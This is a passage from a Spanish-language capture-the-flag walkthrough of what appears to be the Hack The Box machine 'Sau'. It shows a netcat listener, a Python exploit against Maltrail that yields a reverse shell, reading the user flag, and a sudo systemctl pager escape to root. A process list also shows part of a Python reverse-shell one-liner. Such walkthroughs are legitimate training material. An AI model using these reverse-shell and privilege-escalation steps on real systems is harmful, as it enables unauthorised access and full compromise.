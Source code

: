 En una termianl nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Lanzaremos el exploit indicándole nuestra dirección IP y puerto donde estaremos en escucha y el `Basket` vulnerable a `SSRF` que hemos creado anteriormente.

```bash
❯ python3 exploit.py 10.10.16.5 443 http://10.10.11.224:55555/l67yrgc
Running exploit on http://10.10.11.224:55555/l67yrgc/login
```

Revisaremos que ganamos acceso a la máquina y podemos visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.224] 41424
$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
puma@sau:/opt/maltrail$ cat /home/puma/user.txt
cat /home/puma/user.txt
a7e0ab0a8************************
```

## Privilege Escalation

### Abusing sudoers privilege (systemctl)

Revisando los permisos **sudoers** que dispone el usuario `puma`, nos encontramos que el usuario puede ejecutar como **sudo** el comando `/usr/bin/systemctl status trail.service`.

```bash
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Sabiendo que podemos ejecutar el `systemctl` como usuario `sudo`. El objetivo es ejecutar la instrucción y que se ponga en modo "paginate" como con el comando `LESS`. En caso de que nos deje, podremos ejecutar comandos fuera del output y proporcionarnos una bash como usuario `root`. Logramos visualizar la flag de **root.txt**.

```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sun 2025-01-26 21:09:34 UTC; 1h 21min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 899 (python3)
      Tasks: 12 (limit: 4662)
     Memory: 32.1M
     CGroup: /system.slice/trail.service
             ├─ 899 /usr/bin/python3 server.py
             ├─1247 /bin/sh -c logger -p auth.info -t "maltrail[899]" "Failed p>
             ├─1252 /bin/sh -c logger -p auth.info -t "maltrail[899]" "Failed p>
             ├─1256 sh
             ├─1258 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1259 /bin/sh
```
